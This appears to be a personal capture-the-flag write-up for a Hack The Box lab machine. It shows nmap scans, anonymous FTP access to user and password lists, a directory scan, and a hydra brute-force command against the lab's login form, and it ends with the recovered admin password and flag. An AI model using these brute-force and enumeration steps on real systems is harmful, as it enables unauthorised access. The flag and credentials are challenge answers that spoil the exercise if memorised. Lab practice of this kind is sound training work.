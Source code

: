 Hackthebox

Scan
website available on the $ip
└─# nmap -sV -Pn -p- --min-rate 5000 $ip             
Not shown: 37036 filtered tcp ports (no-response), 28497 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
21/tcp open  tcpwrapped
80/tcp open  tcpwrapped
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/Hackthebox]
└─# nmap -sV -Pn -p80 $ip                      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 17:03 EDT
Nmap scan report for 10.129.239.91
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.69 seconds


second nmap 
┌──(root㉿kali)-[/home/…/Desktop/Code/CTFs/HackNote]
└─# nmap -sV -Pn -p21 $ip
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 16:42 EDT
Nmap scan report for 10.129.239.91
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

3rd nmap scan
┌──(root㉿kali)-[/home/…/Desktop/Code/CTFs/HackNote]
└─# nmap -sC -Pn -p21 $ip                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 16:43 EDT
Nmap scan report for 10.129.239.91
Host is up (0.62s latency).
```
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.232
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```

```
ftp> ls
229 Entering Extended Passive Mode (|||40752|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> 

```
got user and password

Now go on the website and perform directory scan

```

.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
                        [Status: 200, Size: 58565, Words: 26449, Lines: 1000]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
dashboard               [Status: 301, Size: 318, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 58565, Words: 26449, Lines: 1000]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]

```

found an dashboard that redirect me : http://10.129.239.91/login.php
I think i will bruteforce it using these username and password
I will use hydra for that
```
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/Hackthebox]
└─# hydra -L allowed.userlist -P allowed.userlist.passwd $ip http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information."
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-19 16:57:26
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking http-post-form://10.129.239.91:80/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information.
[80][http-post-form] host: 10.129.239.91   login: admin   password: rKXM59ESxesUFHAd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-19 16:57:52

```
user admin, pass = rKXM59ESxesUFHAd
flag = c7110277ac44d78b6a9fff2232434d16
